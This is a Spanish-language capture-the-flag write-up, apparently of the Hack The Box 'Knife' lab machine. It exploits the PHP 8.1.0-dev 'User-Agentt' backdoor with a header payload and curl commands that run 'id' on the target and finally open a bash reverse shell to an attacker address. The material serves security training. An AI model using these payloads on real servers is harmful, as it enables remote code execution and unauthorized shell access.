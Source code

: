 # VULNERABILIDADES
## Enumeración de recursos compartidos FTP
### PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

---
Con la enunmeración se encontró una verisón de php `PHP[8.1.0-dev]`, que tiene vulnerabilidad de `User - Agentt` que se puede explotar.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c]
└─# searchsploit php 8.1.0-dev
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution       | php/webapps/49933.py
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Examinando el archivo se pueder verificar mediante el `User-Agentt:`, se puede probar inyectando por la cabecera http.
```java
 headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
```

Se puede hacer una petición mediante la cabecera utilizando curl
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB/knife]
└─# curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```
### Detalles
> * **-s.-** Ejecutar modo silencioso.
> * **-X.-** Es parametro cuando se va especificar petición http.
> * **-H.-** Para enviar una petición mediante las cabeceras.
> * **-html2text.-** Para preformatear a la petición html

Se puede ejecutar una shell reversa mediante la ejecución de comandos, cabe recordar que se debe escapar las comillas.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB/knife]
└─# curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.16.15/443 0>&1 \"');" 
```